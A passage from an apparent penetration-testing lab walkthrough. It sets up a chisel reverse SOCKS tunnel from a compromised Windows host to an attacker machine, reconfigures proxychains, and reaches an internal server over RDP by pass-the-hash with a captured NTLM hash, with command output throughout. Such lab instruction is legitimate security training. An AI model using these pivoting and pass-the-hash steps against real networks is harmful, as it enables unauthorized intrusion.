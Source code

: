 ```
PS C:\Users\helen> .\chisel.exe client 10.10.15.174:8080 R:socks

2024/07/10 05:33:14 client: Connecting to ws://10.10.15.174:8080
2024/07/10 05:33:15 client: Connected (Latency 8.9474ms)
```

Students will return to their workstations, open a new tab, and modify their `proxychains.conf` configurational file:

Code: shell

```shell
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'
sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

Subsequently, students will proceed to connect to SRV02 (`172.20.0.52`) using proxychains via RDP:

Code: shell

```shell
proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.20.0.52:3389  ...  OK
[00:15:46:190] [21173:21175] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[00:15:46:190] [21173:21175] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - The hostname used for this connection (172.20.0.52:3389) 
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - Common Name (CN):
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - 	SRV02.inlanefreight.local
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 172.20.0.52:3389 (RDP-Server):
	Common Name: SRV02.inlanefreight.local
	Subject:     CN = SRV02.inlanefreight.local
	Issuer:      CN = SRV02.inlanefreight.local
	Thumbprint:  58:20:f6:6b:22:d2:a1:92:9e:47:2e:10:1b:03:10:67:90:af:9d:49:8b:81:40:c6:fa:f4:4e:56:47:c4:f2:e5
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
```
